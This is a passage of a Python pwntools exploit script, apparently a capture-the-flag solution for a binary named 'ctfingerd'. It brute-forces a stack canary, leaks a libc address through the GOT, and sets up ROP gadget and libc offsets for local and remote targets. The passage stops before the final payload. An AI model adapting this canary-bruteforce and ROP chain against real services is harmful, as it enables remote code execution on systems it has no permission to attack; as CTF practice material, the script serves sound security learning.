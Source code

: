 ```
    p.recvuntil("Checking...\n")
    c = p.recv()
    with context.quiet:
        p.close()
    # only take the last RDX bytes, the rest is the plan file or error message
    c = c[-37:]

    # trim to 8 bytes as we received more bytes
    leak = c[:8]
    leak = unpack(leak, "all")
    return leak


stack_len = 1000

user  = "A" * 20
user += "\x0a"
user += "A" * (stack_len - len(user))

stack_canary = ""
for a in xrange(1, 9):
    ret = brute_next_canary_value(user + stack_canary)
    log.success("Found part {}/8 of stack canary: {:#02x}".format(a, ret))
    stack_canary += chr(ret)

log.success("Stack Canary is {}".format(encode_payload(stack_canary)))

dummy = 0xdeadbeefdeadbeef
pop_rdi_ret = 0x401013 # pop rdi; ret
pop_rsi_pop_r15_ret = 0x0401011 # pop rsi ; pop r15 ; ret

with context.quiet:
    b = ELF("./ctfingerd")
read_got = b.got["read"]
write_plt = b.plt["write"]
log.info("read@got: {:#08x}".format(read_got))

leak = leak_address(read_got)

log.info("leaked read address: {:#08x}".format(leak))

if local:
    # local libc version 2.24
    offset_read = 0xdb5b0
    offset_system = 0x3f460
    # xor rax, rax ; ret
    offset_xor_rax_rax = 0x80615
    # syscall ; ret
    offset_syscall = 0xa85f5
    # pop rdx ; ret
    offset_pop_rdx = 0x1b92
else:
    # remote libc version 2.19
    offset_read = 0x0dbb90
    offset_system = 0x41490
    # xor rax, rax ; ret
    offset_xor_rax_rax = 0x81dd5
    # syscall ; ret
    offset_syscall = 0xbade5
    # pop rdx ; ret
    offset_pop_rdx = 0x1b8e


```